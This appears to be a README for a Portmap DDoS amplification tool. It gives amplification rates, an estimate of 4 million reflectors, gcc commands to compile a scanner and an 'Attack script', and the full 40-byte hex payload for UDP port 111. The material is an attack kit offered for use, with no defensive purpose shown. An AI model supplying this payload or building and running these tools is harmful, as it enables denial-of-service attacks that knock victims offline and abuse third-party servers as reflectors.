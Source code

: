 # Portmap
Portmap amplification dev

This is for Portmap amplification.

Average amplification rate: 7x - 28x (maximum of 200x has been observed)
Estimated amount of reflectors: 4 million

http://blog.level3.com/security/a-new-ddos-reflection-attack-portmapper-an-early-warning-to-the-industry/

Compile scanner: gcc PortmapScan.c -pthread -o PortmapScan
Compile Attack script: gcc Portmap.c -pthread -o Portmap

Payload: \x65\x72\x0A\x37\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xA0\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

Port: 111

Payload Size: 40
